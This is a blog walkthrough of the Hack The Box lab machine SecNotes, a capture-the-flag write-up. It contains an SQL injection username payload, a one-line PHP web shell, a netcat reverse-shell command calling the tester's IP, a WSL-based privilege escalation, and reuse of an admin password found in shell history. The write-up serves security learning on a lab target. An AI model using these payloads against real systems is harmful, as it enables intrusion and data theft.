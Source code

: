 ```yaml
---
title: "SecNotes Walkthrough(Hack The Box)"
date: 2025-03-22
draft: true 
description: "A straight forward walkthrough of the box SecNotes"
tags: ["Medium", "Windows", "Hack The Box", "hacking", "Active Directory", "Walkthrough"]
---
```

## Reconnaissance & Enumeration

- As usual I started with a Nmap scan, as for the interesting ones we got port 445 and 80, 8808 open
![Pasted image 20241212212636.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212212636.png?raw=true)
- Web port for an Active Directory seems interesting so I quickly checked the port `80` and we got a login page Also with an option to signup for creating new account.
- This website offeres notes saving feature for it's users.
- For starters I registered an account and logged in.
- After a while I started enumerating. Then I noticed something, its getting the notes listed by using the username and also displays the username on the page. Seems good isn't it.
![Great](https://media1.tenor.com/m/JWc2xV5Y1QcAAAAC/dance.gif)

## Exploitation

### Testing SQL Injection
- After seeing this, the idea of sql Injection suddenly sparked within my brain. As this lists notes for the site merely using username is bad cause a simple valid SQL injection payload might make the backend to list all the notes on the server it includes notes of all users.
- If you haven't heard of SQL injection and if it's new to you I already have a short post on SQL injections for begginers. Please check it {{< article link="/Secure-The-Throne/posts/1741343014156-sql-injection/" >}}
- I started the attack, First I tried `'or 1=1 -- -` on the login page it didn't worked so, the idea here is to create an account with this as the username `'or 1=1 -- -`. I created an account with the username of `'or 1=1 -- -` and it was a success. There is no validation for usernames, Actually in my opinion validation on everything is a requirement.
![validation](https://media1.tenor.com/m/MyQOyO7vDNcAAAAC/thats-very-important-raashi-khanna.gif)
- With the malicious username now I can view everyone's notes
![Pasted image 20241212212438.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212212438.png?raw=true)
- I searched through all the notes and from one of the notes I got a password and username for SMB share.
![creds](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212212838.png?raw=true)
### Accessing the SMB share
- Quickly after enumerating the shares I logged into a share called `new-site` cause it seemed interesting, `new-site` share seems like a share for a web directory which could be this directory or the share for web port `8808`. But
![share](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212213135.png?raw=true)
- At this point i'm 100% positive that this share is for the site hosted on web port `8808`. I could easily upload a reverse shell and trigger it by going to the path as this is a web port.
- Wasted literally two hours cause web shells were not working, then after that restarted the machine and got one worked.

### Shell
- I Created a file with this code and named it `cd.php`.
```php
<?php system($_GET['cmd']); ?>
```
- This above payload will enable command execution on the system.
- After uploading it via SMB and I executed/Triggered or tested the shell by visiting this `http://secnotes.htb:8808/cd.php?cmd=whoami` with a command value of `whoami`.
- Got a response, then to get a stable reverse shell connection I uploaded `nc.exe` into the smb share and accessed it `http://10.10.10.97:8808/tester.php?cmd=nc.exe+-e+cmd.exe+10.10.14.5+6001`
- This is the command
```cmd
nc.exe -e cmd.exe <IP> <PORT>
```
- I got a shell back 
- Eventually got {{< keyword >}} User flag {{< /keyword >}}
![Pasted image 20241212225123.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212225123.png?raw=true)

## Privilege Escalation
- I started my post exploitaion enumeration and while at that I found some interesting files within the `C:\\` directory
![Pasted image 20241212225342.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212225342.png?raw=true)
![interesting](https://media1.tenor.com/m/NQgKo4V-sREAAAAC/interesting-batman.gif)
- Root directory of systems with WSL installed would have directories similar to this and the `Ubuntu.zip` Indicating that this system has WSL installed.
- Typically WSL run as root/administrator. If I could excute the `bash` I could escalate my privilege. 
- To My undertstanding there should a system link file of `bash` as `bash.exe`. So to exploit this we can search for `bash.exe` file
```bash
where /R c:\ bash.exe  
```
### Pivoting
- I got the path and after executing `bash.exe` I got root access easily on the wsl.
![Pasted image 20241212230506.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212230506.png?raw=true)
- Moments after stablizing the shell using `python3 -c 'import pty;pty.spawn("/bin/bash")'`, I enumerated and read the history of the commands in the terminal and there I could see administrator password for a share.
![Pasted image 20241212230916.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212230916.png?raw=true)
- Now I logged in to the share using the administrator's password.
```bash
smbclient -U 'administrator%password' \\\\10.10.10.97\\c$
```
- Downloaded the root.txt file using `get` command
![Pasted image 20241212231856.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212231856.png?raw=true)
- Acquired {{< keyword >}} Root flag {{< /keyword >}} 
![Pasted image 20241212231934.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212231934.png?raw=true)

{{< typeit >}} This is it, this was a good and useful journey. I learnt a lot from this box. Anyway i'll see you soon {{< /typeit >}}
![bye](https://media0.giphy.com/media/v1.Y2lkPTc5MGI3NjExdXYxZ2syaHUwbWoxNXRtZjEwOWUzbWhybWxzMWkyZzB1ZG42cXV1MyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/l378d3GlBpg4uHXr2/giphy.gif)

